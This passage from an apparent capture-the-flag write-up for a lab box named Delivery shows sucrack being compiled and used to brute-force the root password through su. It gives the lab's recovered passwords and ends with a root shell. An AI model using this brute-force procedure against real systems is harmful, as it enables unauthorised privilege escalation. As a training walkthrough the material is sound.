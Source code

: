 Next, we compile sucrack by executing `./configure` and `make` as explained in the `README.md` file of the Github repository. This results in a binary named "sucrack" being created in the `src` directory.

{% highlight none linenos %}
maildeliverer@Delivery:~/sucrack-master$ @@./configure@@
checking for a BSD-compatible install... /usr/bin/install -c
checking whether build environment is sane... yes
[...]
config.status: executing depfiles commands

sucrack configuration
---------------------
sucrack version         : 1.2.3
target system           : LINUX
sucrack link flags      : -pthread
sucrack compile flags   : -DSTATIC_BUFFER  -DLINUX -DSUCRACK_TITLE="\"sucrack 1.2.3 (LINUX)\""

maildeliverer@Delivery:~/sucrack-master$ @@make@@
make  all-recursive
make[1]: Entering directory '/home/maildeliverer/sucrack-master'
[...]
make[1]: Leaving directory '/home/maildeliverer/sucrack-master'
maildeliverer@Delivery:~/sucrack-master$
{% endhighlight %}

The next step is to use the sucrack binary to brute force passwords for the `root` user by executing `./src/sucrack -u root -w 20 ../passwords`. The `-u` and `-w` flags are used to specify the target user and the number of threads to use while guessing passwords. After a couple of seconds, we obtain the password "PleaseSubscribe!21".

![crack](/assets/{{ imgDir }}/crack.png)

At this point, we should have everything we need to get a `root` shell. We start by opening a new terminal and logging in as the `maildeliverer` user with the password "Youve_G0t_Mail!". This ensures that we have a terminal in a clean state as sucrack can sometimes impact the behaviour of the terminal negatively.

![root](/assets/{{ imgDir }}/root.png)

Next, we execute `su root` and submit the password "PleaseSubscribe!21". As shown above, this gives us `root` privileges on the target!
